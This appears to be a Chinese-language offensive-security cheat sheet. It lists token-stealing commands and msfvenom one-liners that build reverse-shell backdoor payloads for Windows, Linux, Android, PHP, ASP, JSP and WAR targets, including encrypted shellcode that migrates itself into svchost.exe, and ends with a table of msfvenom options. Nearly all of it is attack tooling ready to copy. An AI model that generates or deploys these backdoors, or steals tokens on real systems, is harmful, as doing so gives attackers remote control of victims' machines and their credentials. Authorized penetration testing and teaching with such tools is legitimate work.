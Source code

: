 **窃取令牌**

```bash
#从指定进程中窃取token   先ps
steal_token <pid值>   

#删除窃取的token
drop_token
```





Msfvenom命令
---

### 简要生成后门木马

```bash
# windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f exe -o shell.exe
# linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[你的IP] LPORT=[端口] -f elf > 保存路径/文件名
# Android
msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=10008 R > black.apk
msfvenom -p android/meterpreter/reverse_tcp lhost=[你的IP] lport=[端口] -o 保存路径/文件名.apk

# php
msfvenom -p php/meterpreter_reverse_tcp lhost=[你的IP] lport=[端口] -f raw > 保存路径/文件名.php
# asp
msfvenom -p windows/meterpreter/reverse_tcp lhost=[你的IP] lport=[端口]-f asp > 保存路径/文件名.asp 
# JSP
msfvenom -p java/jsp_shell_reverse_tcp lhost=[你的IP] lport=[端口]-f raw > 保存路径/文件名.jsp 
# WAR
msfvenom -p java/jsp_shell_reverse_tcp lhost=[你的IP] lport=[端口]-f war > 保存路径/文件名.war

# 生成shellcode
msfvenom -p windows/meterpreter/reverse_http lhost=10.10.10.1 lport=1234 -f c
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=10.10.10.1 LPORT=1234 RC4PASSWORD=test -f ruby

# 自动迁移加密
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=10.10.10.1 LPORT=1234 RC4PASSWORD=test --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f ruby

```

### msfvenom命令参数

```bash
Options:
   -p, --payload    <payload>       指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用'-'或者stdin指定
   -l, --list       [module_type]   列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all
   -n, --nopsled    <length>        为payload预先指定一个NOP滑动长度
   -f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
   -e, --encoder    [encoder]       指定需要使用的encoder（编码器）
   -a, --arch       <architecture>  指定payload的目标架构
       --platform   <platform>      指定payload的目标平台
   -s, --space      <length>        设定有效攻击荷载的最大长度
   -b, --bad-chars  <list>          设定规避字符集，比如: '\x00\xff'e
   -i, --iterations <count>         指定payload的编码次数
   -c, --add-code   <path>          指定一个附加的win32 shellcode文件
   -x, --template   <path>          指定一个自定义的可执行文件作为模板
   -k, --keep                       保护模板程序的动作，注入的payload作为一个新的进程运行
       --payload-options            列举payload的标准选项
   -o, --out   <path>               保存payload
```
